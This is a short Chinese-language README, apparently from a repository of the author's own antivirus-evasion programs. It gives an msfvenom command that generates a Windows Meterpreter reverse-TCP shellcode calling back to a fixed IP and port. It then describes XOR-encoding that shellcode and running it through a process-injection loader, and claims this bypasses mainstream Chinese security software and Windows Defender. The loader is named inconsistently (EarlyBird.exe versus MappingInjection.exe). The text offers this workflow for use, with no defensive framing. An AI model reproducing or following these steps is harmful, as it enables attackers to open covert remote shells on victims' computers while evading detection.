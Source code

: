该仓库用于放置自己编写绕过杀软的程序
使用方法：

1.用MSF生成完整的shellcode：msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.43.147 lport=4444 -f raw > beacon.bin

2.然后用XorEncode.exe加密生成的shellcode文件：XorEncode.exe beacon.bin，结果会生成一个EncodeRAWData

3.最后用EarlyBird.exe执行加密后的文件EncodeRAWData：MappingInjection.exe EncodeRAWData

绕过效果：可以绕过国内主流的安全防护软件以及windows defender

博客地址：https://reader-l.github.io